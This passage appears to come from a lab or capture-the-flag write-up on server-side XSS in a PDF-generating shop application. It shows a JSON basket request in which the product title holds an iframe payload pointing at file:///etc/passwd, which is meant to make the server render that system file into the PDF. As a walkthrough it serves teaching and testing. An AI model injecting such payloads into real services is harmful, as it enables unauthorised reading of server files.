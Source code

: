 - And this time the data in the PDF is altered through our XSS test script.

![img12](screenshots/img12.png)

Let's try to fetch some useful information from the target:

- Fetching **/etc/passwd**

```
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "Bin <iframe src=file:///etc/passwd height=800px width=500px></iframe>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": "76",
      "currentStock": "15",
      "__v": 0,
      "amount": 1
    }
  ]
}
```

- Modified request:

